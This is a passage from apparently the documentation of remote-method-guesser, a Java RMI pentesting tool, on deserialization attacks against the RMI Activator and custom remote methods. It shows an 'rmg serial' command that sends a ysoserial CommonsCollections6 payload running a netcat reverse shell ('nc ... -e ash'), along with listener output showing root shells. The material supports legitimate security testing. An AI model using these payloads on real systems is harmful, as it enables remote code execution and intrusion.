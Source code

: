 ```console
[qtc@devbox ~]$ nc -vlp 4445
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45429.
id
uid=0(root) gid=0(root) groups=0(root)
```

During it's ``enum`` action, *remote-method-guesser* informs you whether an *Activator* is present on an *RMI endpoint* (legacy *RMI component*).
The default implementation for the *Activation system* does not implement any deserialization filters for the *Activator RemoteObject*. Therefore,
deserialization attacks on an *Activator* endpoint should always work, even on most recent *Java versions*.

```console
[qtc@devbox ~]$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --component act
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on Activation endpoint...
[+]
[+] 	Caught IllegalArgumentException during deserialization attack.
[+] 	Deserialization attack was probably successful :)

[qtc@devbox ~]$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:44673.
id
uid=0(root) gid=0(root) groups=0(root)
```


##### Application Level

Whereas modern *Java RMI* implementations protect well known *RMI components* with *deserialization filters* per default, custom
*RemoteObjects* (actual *RMI applications*) are usually not protected. Remote methods that do not only use primitive types within
their arguments can therefore be used for *deserialization attacks*.
This [blog post](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/) by [Hans-Martin Münch](https://twitter.com/h0ng10)
explains this issue in more detail. *remote-method-guesser* can be used to easily verify such vulnerabilities. As an example,
we can use the ``String login(java.util.HashMap dummy1)`` method of the *remote-method-guesser's* example server to perform a
deserialization attack:
